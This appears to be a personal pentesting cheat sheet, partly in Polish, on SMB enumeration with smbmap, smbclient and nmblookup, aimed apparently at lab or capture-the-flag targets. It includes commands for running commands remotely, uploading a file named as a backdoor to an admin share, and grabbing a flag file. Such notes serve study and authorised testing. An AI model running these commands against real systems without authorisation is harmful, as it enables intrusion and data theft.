 ```bash
$ smbmap -u guest -p "" -d . -H 10.4.26.58 # discover all shared folders and drives jako gość (domyślne konto)
$ smbmap -H 192.212.251.3 -u admin -p password1 # pokazuje zasoby i jakie ma uprawnienia do nich użytkownik
$ smbmap -u administrator -p smbserver_771 -d . -H 10.0.28.123 # jak wyżej ale jako odpowiedni użytkownik
$ smbmap -u administrator -p smbserver_771 -H 10.4.26.58 -x 'ipconfig' # execute command on the target machine
$ smbmap -u administrator -p smbserver_771 -H 10.4.26.58 -L # Listing all drives on the specified host
$ smbmap -u administrator -p smbserver_771 -H 10.4.26.58 -r 'C$' # List contents of the directory of C:\ drive
$ smbmap -u administrator -p smbserver_771 -H 10.4.26.58 --upload '/root/kali/backdor' 'C$\backdor' # Uploading a sample file
$ smbmap -u administrator -p smbserver_771 -H 10.4.26.58 -download 'C$\flag.txt' # Downloading a sample file
```

## $ smbclient (pozwala zalogować się zasobu)

```bash
$ smbclient -L 192.144.106.3 -N # List all available shares on the samba server
# zasób może byc niewidzialny ale nadal można sie do niego zalogować
$ smbclient //192.212.251.3/jane -U jane # Checking whether jane share exists
```

```bash
# Wejście do zasobu, listowanie zawartości i pobranie pliku z flagą
$ smbclient //192.144.106.3/public -N
  > ls
  > get flag.txt
  > exit
  ...
$ cat flag.txt
```

|      |                                                                                                                                                                                         |
| ---- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `-N` | `-no-pass` If specified, this parameter suppresses the normal password prompt from the client to the user.<br>This is useful when accessing a service that does not require a password. |
| `-L` | `--list`` This option allows you to look at what services are available on a server.<br>You use it as smbclient -L host and a list should appear.                                       |
| `-U` | `--user=[DOMAIN\]USERNAME[%PASSWORD]` Sets the SMB username or username and password.                                                                                                   |

## $ msf

[[Metasploit#SMB]]

## $ nmblookup

```bash
# NetBIOS over TCP/IP client used to lookup NetBIOS names
$ nmblookup -A <IP>
```
